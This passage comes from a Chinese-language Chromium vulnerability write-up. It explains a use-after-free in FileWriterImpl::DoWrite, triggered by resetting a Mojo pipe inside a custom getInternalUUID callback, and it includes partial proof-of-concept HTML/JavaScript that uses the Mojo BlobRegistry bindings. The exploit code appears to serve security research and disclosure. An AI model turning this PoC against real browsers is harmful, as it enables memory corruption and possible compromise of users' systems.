 ```
    },
    asDataPipeGetter: async (arg0, arg1) => {
      console.log("asDataPipeGetter");
    },
    readAll: async (arg0, arg1) => {
      console.log("readAll");
    },
    readRange: async (arg0, arg1, arg2, arg3) => {
      console.log("readRange");
    },
    readSideData: async (arg0) => {
      console.log("readSideData");
    },
    getInternalUUID: async (arg0) => {
      console.log("getInternalUUID");
      create_writer_result.writer.ptr.reset();
      return {'uuid': 'blob_0'};
    }
  };
```

raw_blob->GetInternalUUID，其参数是一个callback，他最终就是调用FileWriterImpl::DoWrite，并将从uuid得到的BlobData，作为DoWrite的最后一个参数std::unique_ptr<BlobDataHandle> blob。

我们可以自定义getInternalUUID，将之前建立好的message pipe给断开，从而析构掉之前创建出的FileWriterImpl对象。这样再去调用DoWrite就会触发uaf。


### poc

```
<html>
  <body>
    <script src="/mojo_bindings.js"></script>
    <script src="/third_party/blink/public/mojom/blob/blob_registry.mojom.js"></script>
    <script src="/third_party/blink/public/mojom/filesystem/file_system.mojom.js"></script>
    <script>
(async function poc() {
  let blob_registry_ptr = new blink.mojom.BlobRegistryPtr();
  Mojo.bindInterface(blink.mojom.BlobRegistry.name,
                     mojo.makeRequest(blob_registry_ptr).handle, "process");

  function BytesProviderImpl() {
    this.binding = new mojo.Binding(blink.mojom.BytesProvider, this);
  }

  BytesProviderImpl.prototype = {
    requestAsReply: async () => {
      console.log('requestAsReply');
    },
    requestAsStream: async (arg0) => {
      console.log('requestAsStream');
    },
    requestAsFile: async (arg0, arg1, arg2, arg3) => {
      console.log('requestAsFile');
    }
  };

  base_bytes = new BytesProviderImpl();
  base_bytes_ptr = new blink.mojom.BytesProviderPtr();
  base_bytes.binding.bind(mojo.makeRequest(base_bytes_ptr));

  let base_blob_element = new blink.mojom.DataElement();
  base_blob_element.bytes = new blink.mojom.DataElementBytes();
  base_blob_element.bytes.length = 2;
  base_blob_element.bytes.embeddedData = [0x41, 0x41];
```